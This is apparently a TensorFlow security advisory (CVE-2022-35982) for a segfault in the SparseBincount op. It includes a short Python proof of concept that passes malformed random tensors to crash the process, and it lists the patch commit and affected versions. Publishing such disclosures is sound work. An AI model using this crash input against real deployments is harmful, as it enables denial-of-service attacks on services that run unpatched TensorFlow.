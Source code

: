 ## TFSA-2022-113: Segfault in `SparseBincount`

### CVE Number
CVE-2022-35982

### Impact
If `SparseBincount` is given inputs for `indices`, `values`, and `dense_shape` that do not make a valid sparse tensor, it results in a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
binary_output = True
indices = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.int64, seed=-1288)
values = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.int32, seed=-9366)
dense_shape = tf.random.uniform(shape=[0], minval=-10000, maxval=10000, dtype=tf.int64, seed=-9878)
size = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.int32, seed=-10000)
weights = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.float32, seed=-10000)
tf.raw_ops.SparseBincount(indices=indices, values=values, dense_shape=dense_shape, size=size, weights=weights, binary_output=binary_output)
```

### Patches
We have patched the issue in GitHub commit [40adbe4dd15b582b0210dfbf40c243a62f5119fa](https://github.com/tensorflow/tensorflow/commit/40adbe4dd15b582b0210dfbf40c243a62f5119fa).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Di Jin, Secure Systems Labs, Brown University
